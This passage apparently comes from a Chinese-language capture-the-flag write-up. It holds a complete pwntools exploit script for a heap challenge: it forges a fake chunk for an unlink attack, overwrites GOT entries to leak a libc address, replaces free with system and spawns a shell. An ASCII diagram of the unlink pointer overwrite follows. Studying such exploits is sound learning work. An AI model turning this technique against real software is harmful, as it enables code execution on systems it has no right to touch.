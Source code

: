 def delete(index):
    p.recvuntil('*********\n$')
    p.send('2')
    p.recvuntil('Chose one to dele\n')
    p.send(str(index))

def edit(index, content):
    p.recvuntil('*********\n$')
    p.send('3')
    p.recvuntil('to edit\n')
    p.send(str(index))
    p.recvuntil('the content\n')
    p.send(content)

if __name__ == '__main__':
    puts_plt = elf.symbols['puts']
    p_addr = 0x602100
    free_got = elf.got['free']
    puts_got = elf.got['puts']
    
    welcome()
    create(0, 0x20, '/bin/sh\x00')
    create(2, 0x100, 'BBBB')
    create(1, 0x100, 'CCCC')
    delete(2)
    delete(1)
    payload = p64(0) + p64(0x101) + p64(p_addr-0x18) + p64(p_addr-0x10) + 'A'*(0x100-32)
    payload += p64(0x100) + p64(0x210-0x100)
    create(2, 0x210, payload)
    delete(1)

    edit(2, p64(1)+p64(free_got)+p64(1)+p64(puts_got)+p64(1))
    edit(1, p64(puts_plt))
    delete(2)
    puts_addr = u64(p.recv(6) + "\x00"*2)
    print "[+] the puts address is " + hex(puts_addr)

    system_addr = puts_addr - (libc.symbols['puts'] - libc.symbols['system'])
    print "[+] the system address is " + hex(system_addr)

    edit(1, p64(system_addr))
    delete(0)

    p.interactive()</pre>

下图是当时调试画出来方便理解该类型的漏洞利用方式：

<pre>                             --------------------------+

                 x-0x18       x-0x10       x
                   +            +          +
HEAP               |            |          |
                   |            |          |
     +-------------+------------v----------v-------------------------------------+
     |                                                                           |
     |                                                                           |
     |                                    ptr    after unlink; ptr overwriteen;  |
     |                                     +     ptr=x-0x18                      |
     |                                     |                                     |
     |                                     |                                     |
     +---------------------------------------------------------------------------+
    low                                    |                                    high
                                           ^